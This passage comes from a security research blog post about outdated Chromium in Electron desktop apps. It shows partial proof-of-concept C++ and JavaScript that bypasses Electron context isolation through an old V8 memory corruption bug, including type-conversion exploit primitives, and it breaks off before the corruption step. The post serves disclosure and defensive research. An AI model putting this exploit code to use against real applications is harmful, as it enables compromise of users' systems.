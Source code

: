 However, there’s a catch: while Electron releases new versions promptly, desktop applications often way behind in updating their Electron versions. In our previous Electrovolt research, we exploited this patch gap in numerous applications, revealing how outdated Electron versions leave popular desktop apps open to compromise. You can check it out in detail [here](https://speakerdeck.com/s1r1us/electrovolt-pwning-popular-desktop-apps-while-uncovering-new-attack-surface-on-electron?slide=2). 

But it is still the case. Just Open any Electron app, go to the devtools, and run `navigator.userAgent`. Chances are, it’s running a much older version of Chromium.

### Context Isolation Bypass via V8 Exploit

For a proof of concept, I created [this code](https://gist.github.com/msrkp/6853ffb8d0cb59403744211c7aba8e66) that bypasses context isolation using an old V8 exploit. In the example, I modify the `source` property of `var regexp = /^only_allow_this_module_[a-z0-9_-]+$/;` to arbitrary values using memory corruption bug, essentially bypassing the regular expression checks and enabling access to otherwise restricted modules. This example demonstrates how a memory corruption bug in V8 can be used to circumvent context isolation and execute unintended code.

```c++
  const char* isolated_code = R"(
        console.log("In Isolated Context:");
        var regexp = /^only_allow_this_module_[a-z0-9_-]+$/;
        %DebugPrint(regexp);
        %DebugPrint(regexp.source);
        function requireModule(name) {
             if (regexp.test(name) && name !== 'erlpack') {
                  return false;
              }
              return true;
        }
        const myObject = { name: "isolated_object", requireModule:requireModule}
        ExposeInMainWorld("exposedObject", myObject);
        %DebugPrint(myObject); 
    
    )";
  v8::Local<v8::String> source =
      v8::String::NewFromUtf8(isolate, isolated_code).ToLocalChecked();
  v8::Local<v8::Script> script;
  if (!v8::Script::Compile(isolated_context, source).ToLocal(&script)) {
    std::cerr << "Failed to compile isolated context script." << std::endl;
    return;
  }
  script->Run(isolated_context).ToLocalChecked();

  const char* main_code = R"(
        console.log("In Main Context:");
        let conversion_buffer = new ArrayBuffer(8);
        let float_view = new Float64Array(conversion_buffer);
        let int_view = new BigUint64Array(conversion_buffer);
          BigInt.prototype.hex = function() {
            return '0x' + this.toString(16);
      };
      BigInt.prototype.i2f = function() {
          int_view[0] = this;
          return float_view[0];
      }
      Number.prototype.f2i = function() {
          float_view[0] = this;
          return int_view[0];
      }
      function gc() {
      for(let i=0; i<((1024 * 1024)/0x10); i++) {
        var a = new String();
      }
      }
```